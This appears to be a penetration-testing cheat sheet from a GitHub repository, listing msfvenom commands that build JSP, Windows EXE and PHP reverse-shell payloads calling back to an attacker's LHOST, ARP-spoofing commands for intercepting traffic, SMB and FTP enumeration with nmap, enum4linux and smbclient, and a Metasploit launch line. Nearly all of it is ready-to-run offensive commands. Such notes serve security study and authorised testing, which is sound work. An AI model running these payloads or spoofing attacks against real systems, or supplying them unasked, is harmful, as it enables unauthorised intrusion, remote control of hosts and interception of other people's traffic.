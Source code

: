 ## XSS via GET & POST Request

![alt text](https://raw.githubusercontent.com/SattamInfosec/SattamInfosec/main/XSS%20Via%20GET%20%26%20POST.PNG)

## msfvenom shells
**JSP Java Meterpreter Reverse TCP**
```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp #TomCat content management system 
```
**EXE**
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe #Windows System
```
**PHP**
```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php\                   #PHP Web Application
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
## ARPSpoof
```sh
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i <interface> -t <target> -r <host>
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36
```
## SMB Enumeration
**Get shares, users, groups, password policy**
```sh
smbclient -L //10.10.10.10/
enum4linux -U -M -S -P -G 10.10.10.10
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 
nmap -p445 --script=smb-vuln-* 10.10.10.10 
```
**Access Share**
```sh
smbclient //10.10.10.10/share_name
```
## FTP Enumeration
```sh
nmap --script=ftp-anon 10.10.10.10 -p21 
nmap -A -p21 10.10.10.10 
```

**Login to FTP Server**
```sh
ftp 10.10.10.10
```
## FTP Server Commands
```sh
get filename               #to Receive file
put filename               #to upload file 
cd /../..                  #to Change remote working directory
ls /..                     #to List contents of remote directory
```
## Metasploit Freamwork
```sh
msfconsole                        #To run the Freamwork
```